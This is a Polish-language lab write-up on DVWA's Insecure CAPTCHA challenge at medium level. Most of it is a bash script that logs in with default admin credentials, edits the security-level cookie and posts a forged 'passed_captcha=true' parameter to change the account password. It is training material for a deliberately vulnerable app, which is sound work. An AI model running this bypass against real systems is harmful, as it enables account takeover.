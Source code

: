 ## DVWA Insecure CAPTCHA #2 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Sprawdzenie CAPTCHA polega tylko na ustawieniu kontrolowanej przez użytkownika wartości jednego parametru w POST po pomyślnym rozwiązaniu CAPTCHA

#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | docelowe hasło | string | charlie|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <password>"
  echo "Description: This script attempts to bypass improperly implemented captcha mechanism to change a password"
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <password>      Password you want to set"
}

# Check if the required number of arguments are provided
if [[ $# -ne 2 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=medium&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/medium/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

exploit() {
  response=$(curl -s -x "http://127.0.0.1:8080" -b dvwa.cookie -X POST -d "step=2&password_new=$2&password_conf=$2&passed_captcha=true&Change=Change" "$1/vulnerabilities/captcha/" | awk -v RS="<pre>" 'NR > 1 {gsub(/<\/pre>.*/, ""); print}')
  [[ ! -z "$response" ]] && echo "Password changed to: $2" && exit 1
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"
exploit "$1" "$2"
echo "Something went wrong and the password was not changed. Check with proxy"

```
